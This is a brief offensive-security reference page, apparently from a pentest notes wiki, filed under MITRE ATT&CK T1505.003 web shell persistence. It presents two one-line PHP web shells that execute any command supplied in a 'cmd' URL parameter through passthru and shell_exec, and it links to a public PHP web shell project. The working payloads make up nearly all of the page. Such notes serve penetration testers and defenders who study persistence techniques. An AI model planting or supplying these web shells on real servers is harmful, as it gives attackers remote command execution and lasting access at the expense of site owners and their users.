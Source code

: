 ```yaml
---
description: MITRE ATT&CK, Persistence, Sub-technique T1505.003
---
```


# Web Shell

### Basic Web Shells

#### PHP

```bash
<?php echo passthru($_GET['cmd']); ?>
```

```bash
<?php echo shell_exec($_GET['cmd']); ?>
```

{% embed url="https://github.com/WhiteWinterWolf/wwwolf-php-webshell" %}
